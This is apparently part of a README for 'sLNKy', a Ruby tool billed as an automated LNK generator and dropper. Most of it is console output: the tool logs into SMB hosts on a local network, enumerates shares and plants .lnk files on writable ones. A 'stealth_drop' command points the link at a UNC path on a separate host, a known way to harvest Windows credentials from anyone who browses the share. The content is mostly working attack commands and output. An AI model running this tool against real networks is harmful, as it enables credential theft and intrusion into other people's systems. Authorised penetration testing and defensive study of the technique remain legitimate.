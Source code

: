 	        Automated LNK Generator/Dropper

	[+] Target host: 192.168.1.2 [LOGIN SUCCESS]
	        [+] Enumerating browseable shares...done, 7 share(s) enumerated
	        [+] Dropping links on valid shares.
	                [+] Target share: iron-root [SHARE CONNECT FAILURE]
	                [!] STATUS_ACCESS_DENIED (Command=117 WordCount=0)

	                [+] Target share: store [SHARE CONNECT FAILURE]
	                [!] STATUS_ACCESS_DENIED (Command=117 WordCount=0)

	                [+] Target share: ctp [SHARE CONNECT FAILURE]
	                [!] STATUS_ACCESS_DENIED (Command=117 WordCount=0)

	                [+] Target share: archangel [SHARE CONNECT FAILURE]
	                [!] STATUS_ACCESS_DENIED (Command=117 WordCount=0)

	                [+] Target share: test [SHARE CONNECT SUCCESS]
	                [+] Dropping link file: testing.lnk [FAILURE]
	                [!] Drop Failed:  STATUS_ACCESS_DENIED (Command=45 WordCount=0)


	[+] Target host: 127.0.0.1 [CONNECTION FAILURE]
	        [+] Connection failed: The connection was refused by the remote host (127.0.0.1:139).
	[+] Target host: 192.168.1.3 [LOGIN SUCCESS]
	        [+] Enumerating browseable shares...done, 3 share(s) enumerated
	        [+] Dropping links on valid shares.
	                [+] Target share: media [SHARE CONNECT SUCCESS]
	                [+] Dropping link file: testing.lnk [SUCCESS]
	                [+] UNC Path to LNK: \\192.168.1.3\media\testing.lnk



	[+] Target host: junk.hosts.stuff.com [CONNECTION FAILURE]
	        [+] Connection failed: The connection timed out (junk.hosts.stuff.com:139).

## Stealth Drop Example

### Contents of ```targets.txt```

	192.168.1.3

### Execution

	archangel@aasana:sLNKy~> ruby sLNKy.rb stealth_drop -t targets.txt -l notanothertest.lnk -u \\\\172.30.128.2\\test\\test.png
	                 __    _   ____ __     
	           _____/ /   / | / / //_/_  __
	          / ___/ /   /  |/ / ,< / / / /
	         (__  ) /___/ /|  / /| / /_/ / 
	        /____/_____/_/ |_/_/_|_\__,  /  
	         /___________________________/ 

	        Automated LNK Generator/Dropper

	[+] Target host: 192.168.1.3 [LOGIN SUCCESS]
	        [+] Enumerating browseable shares...done, 3 share(s) enumerated
	        [+] Dropping links on valid shares.
	                [+] Target share: media [SHARE CONNECT SUCCESS]
	                [+] Dropping link file: pictures.lnk [SUCCESS]
	                [+] UNC Path to LNK: \\192.168.1.3\media\pictures.lnk
